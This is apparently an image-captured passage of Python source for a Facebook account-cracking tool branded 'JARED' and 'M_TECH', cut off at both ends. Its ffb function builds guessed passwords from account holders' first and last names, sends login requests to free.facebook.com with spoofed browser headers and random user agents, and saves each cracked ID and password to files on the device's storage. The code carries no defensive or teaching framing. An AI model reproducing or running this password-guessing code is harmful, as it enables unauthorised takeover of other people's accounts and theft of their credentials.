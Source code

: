                 menu() 
              
            
def ffb(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write('\r\r\033[1;37m [JARED-F1] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(' ')[0]
                try:
                        last = names.split(' ')[1]
                except:
                        last = 'Afghan'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
                        pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://free.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post('https://free.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        AWM=session.cookies.get_dict().keys()
                        if "c_user" in AWM:
                                coki=session.cookies.get_dict()
                                kuki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print('\r\r\033[1;32m [M_TECH-OK] %s | %s'%(ids,pas))
                                open('/sdcard/M_TECH-OK.txt', 'a').write(ids+'|'+pas+'\n')
                                oks.append(ids)
                                break
                        elif 'checkpoint' in AWM:
                                if 'y' in pcp:
                                        print('\r\r\x1b[38;5;208m [M_TECH-CP] '+ids+' | '+pas+'\033[1;97m')
                                        open('/sdcard/M_TECH-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1
def api(ids,names,passlist):
                try:
                        global ok,loop
                        sys.stdout.write('\r\r\033[1;37m [JARED-F2] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        fn = names.split(' ')[0]
                        try:
                                ln = names.split(' ')[1]
                        except: